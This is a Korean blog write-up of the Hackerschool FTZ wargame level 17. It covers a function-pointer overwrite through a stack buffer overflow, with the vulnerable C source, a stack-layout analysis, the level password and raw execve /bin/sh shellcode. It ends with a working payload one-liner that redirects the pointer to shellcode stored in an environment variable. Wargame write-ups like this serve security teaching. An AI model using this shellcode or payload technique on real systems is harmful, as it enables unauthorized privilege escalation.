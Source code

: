 ```yaml
---
title: BOF/ ftz-level17
tags: ftz
---
```


17번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 17
**ID : level17**  
**PASSWD : king poetic**         

<br />
{% highlight C linenos %}  
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
15번과 비슷하지만 shell을 실행시켜주는 함수가 없다.  
따라서 void포인터 call에 쉘코드가 저장된 환경변수의 주소를 변조하도록 공격한다.  

<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level17에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level17/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 esp에 56Byte의 공간을 할당하는것을 알 수 있다.  
main+24,27 line을 보면 fgets함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-56.  
main+57 line을 보면 eax를 call하기 위해 ebp-16을 eax에 대입하고 있다.  
소스를 보면 eax는 void포인터 call임을 알 수 있다. 따라서 ebp-16은 void포인터 call.  
buf와 call사이의 거리는 56-16 = 40Byte buf의 크기가 20Byte이므로 dummy값이 20Byte가 있다.   
<br />

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(20Byte)|
dummy(20Byte)|
call(4Byte)|
crap(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level17/2.PNG)  
쉘코드를 담은 환경변수를 만들어준다.  

<br />
![그림3](/assets/ftz/level17/3.PNG)  
기존의 환경변수 주소 얻는 코드이다.  하지만 이 소스는 정확한 주소를 얻을 수 없는 경우가 있는데 아래 그림을 보자.  

<br />
![그림4](/assets/ftz/level17/4.PNG)  
위와 같이 환경변수 주소를 얻는 소스를 실행시켜보지만 소스를 실행시키는 위치에 따라 다른 주소가 출력되는것을 볼 수 있다.  

**환경변수의 주소는 bf로 시작한다. 즉, 프로그램이 실행되면 환경변수의 데이터들이 스택 어딘가에 들어간다.**  
**따라서 프로그램 이름의 길이나 명령어의 길이등에 따라 환경변수의 주소가 바뀐다.**  

<br />
![그림5](/assets/ftz/level17/5.PNG)  
위의 소스는 프로그램명과 타깃 바이너리의 절대경로 등을 계산하여 정확한 주소값을 출력하는 소스이다.  

<br />
![그림6](/assets/ftz/level15/6.PNG)  
전에 사용하던 소스와 달리 프로그램을 실행하는 경로에 따라 출력되는 주소가 다른 경우는 발생하지 않는다.  
첫 번째 인자로는 환경변수의 이름, 두 번째 인자로는 타겟 바이너리 파일의 절대경로를 전달한다.  

<br />
![그림7](/assets/ftz/level17/7.PNG)  
위에서 얻은 환경변수의 정확한 주소로 페이로드를 작성하여 공격한다.  
void포인터 call이 포인팅하는 주소를 쉘코드가 담긴 환경변수의 주소를 포인팅하도록 한다.  

<br />

#### 페이로드
(python -c "print 'A'*40 + '\xfd\xfb\xff\xbf'";cat) | /home/level17/attackme
